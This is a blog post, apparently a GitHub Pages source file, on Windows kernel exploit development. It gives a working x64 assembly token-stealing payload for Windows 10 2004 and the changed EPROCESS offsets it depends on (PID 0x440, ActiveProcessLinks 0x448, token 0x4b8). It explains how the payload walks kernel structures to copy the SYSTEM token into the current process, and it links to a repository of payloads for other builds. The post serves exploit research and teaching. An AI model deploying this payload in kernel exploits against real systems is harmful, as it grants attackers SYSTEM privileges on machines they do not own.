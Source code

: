 ```yaml
---
layout: post
title: 'Windows 10 2004 (20H1) Token Stealing Payload and EPROCESS Changes'
date: '2020-06-21T00:00:00.000-00:00'
author: Keramas
tags: [kernel,exploit development]
---
```


I recently re-did my Windows kernel debugging environment with the latest version of Windows 10, 2004 (20H1), and while writing a proof of concept for a driver exploit, I noticed that the token stealing payload I was using was breaking due to a bad dereference when it was crawling the EPROCESS structure. This meant that the offsets had once again changed in this new Windows build. 

## Token Stealing Payload 

The following is the updated token stealing payload that works on Windows 10 2004.

```asm
; Windows 10 x64 2004 Token Stealing Payload

[BITS 64]

__start:
	xor rax, rax
	mov rax, [gs:0x188]	; Current thread -> _KTHREAD
	mov rax, [rax + 0xb8]	; Current process -> _EPROCESS
	mov r8, rax		; Move current process' _EPROCESS to r8

__loop:
	mov rax, [rax + 0x448]	; ActiveProcessLinks
	sub rax, 0x448		; Return to current process -> _EPROCESS
	mov rcx, [rax + 0x440]	; UniqueProcessId (PID)
	cmp rcx, 4		; Compare PID to SYSTEM process PID (0x4)
	jnz __loop		; Iterate over EPROCESS nodes until SYSTEM PID is located

	mov r9, [rax + 0x4b8]	; _EPROCESS + 0x4b8 -> token
	mov [r8 + 0x4b8], r9	; Copy SYSTEM token to current process
```

For those who are unfamiliar with how the above payload works to grant system-level privilges, lets walk through the assembly a bit while explaining about the EPROCESS structure.

As the name implies, this payload aims to escalate privileges when it runs in ring 0 by grabbing a system-level token from the System process (PID of 4), and then replacing the current process' token with it. To accomplish this, it crawls several structures in order to reach the token in the System process.

First, Windows stores the location of the KTHREAD structure in the `gs` register at offset `0x188` (`[gs:0x188]`), and at offset 0xb8 of that structure, there is a pointer to the EPROCESS structure of the current process. 

The EPROCESS structure contains various process-related attributes and pointers to other structures. For the token stealing payload, several offsets will need to be gathered:

- Offset to ActiveProcessLinks
- Offset to the UniqueProcessId (the PID of the process)
- Offset to token associated with the process

From WinDBG, the EPROCESS structure can be explored the with the following command:
```
dt nt!_EPROCESS <address of process>
```

<img src = "/assets/images/EPROCESS.png">

The address used in the image is the address of the System process. The `UniqueProcessId` is located at offset `0x440`, and as the value shows, it is `0x4`, which is always the PID of the System process. Additionally, `ActiveProcessLinks` can be found at offset `0x448`. This points to the `LIST_ENTRY` structure which is a doubly-linked list containing EPROCESS nodes. This list is then iterated over and the PID is checked to see whether the value is 0x4 or not. Once it is found, the token of that process will be taken, as the System process is running under the context of nt authority\system. 

<img src = "/assets/images/EPROCESS_TOKEN.png">

The token can be found at offset `0x4b8` in the EPROCESS structure. The value present here will then replace the token of the current process in the final instruction of the payload allowing for the escalation of privileges. 

## Token Stealing Payload Stub 

To help facilitate kernel exploits being used on multiple versions of Windows 10 x64, I organized some code to dynamically grab payloads for version 1507 - 2004 based on the Windows version detected. 

- https://github.com/Keramas/WindowsKernelExploits/tree/master/shellcode


## In Summary / TL;DR

- New offsets within EPROCESS structure for Windows 10 2004
- As it relates to ring 0 token stealing payloads:
  - UniqueProcessId is now at 0x440
  - ActiveProcessLinks is now at 0x448
  - Token is now at 0x4b8
- Update payloads accordingly when running on the latest version of Windows 10